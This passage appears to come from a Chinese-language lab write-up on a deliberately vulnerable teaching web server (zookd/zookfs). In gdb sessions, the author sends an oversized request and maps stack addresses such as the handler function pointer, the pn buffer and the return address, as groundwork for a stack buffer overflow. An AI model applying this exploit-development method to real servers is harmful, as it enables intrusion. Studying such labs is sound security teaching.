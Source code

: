 ``` gas
0x805092c <buf.4435+1004>:      'A' <repeats 25 times>
0x8050946 <buf.4435+1030>:      "HTTP/1.0"
0x805094f <buf.4435+1039>:      ""
0x8050950 <buf.4435+1040>:      ""
(gdb) x/10 reqpath    [打印reqpath，为"/", A * 1024]
0xbfffee08:     "/", 'A' <repeats 199 times>...
0xbfffeed0:     'A' <repeats 200 times>...
0xbfffef98:     'A' <repeats 200 times>...
0xbffff060:     'A' <repeats 200 times>...
0xbffff128:     'A' <repeats 200 times>...
0xbffff1f0:     'A' <repeats 25 times>
0xbffff20a:     "\005\b|\365\377\277"
0xbffff211:     ""
0xbffff212:     ""
0xbffff213:     ""
(gdb) p sizeof reqpath  [reqpath不会溢出]
$3 = 2048
(gdb) p sizeof env      [env不会溢出]
$4 = 8192
[继续用n命令执行]
85          if (sendfd(svcfds[i], env, env_len, fd) <= 0)
[此时zookd将请求发送给zookfs]
(gdb) quit
```

`zookd`此时并不存在缓冲区溢出，接下来分析`zookfs`。

在`zookfs.c`中，`http_serve()`函数以`REQUEST_URI`环境变量为参数。在`http_serve`处设置断点，分析栈结构。

``` gas
$ gdb -p $(pgrep zookfs-exstack)
...
(gdb) b http_serve
Breakpoint 1 at 0x804951c: file http.c, line 275.
[运行漏洞触发程序]
(gdb) c
Continuing.
[New process 5076]
[Switching to process 5076]

Breakpoint 1, http_serve (fd=3, name=0x80510b4 "/", 'A' <repeats 199 times>...) at http.c:275
warning: Source file is more recent than executable.
275         void (*handler)(int, const char *) = http_serve_none;
(gdb) p $ebp
$1 = (void *) 0xbfffde08
(gdb) p &handler
$2 = (void (**)(int, const char *)) 0xbfffddfc
(gdb) p &pn
$3 = (char (*)[1024]) 0xbfffd9fc
(gdb) p &st
$4 = (struct stat *) 0xbfffd9a4
(gdb) p &fd
$5 = (int *) 0xbfffde10
(gdb) P &name
$6 = (const char **) 0xbfffde14
(gdb) x $ebp+4
0xbfffde0c:     0x08048d86
```
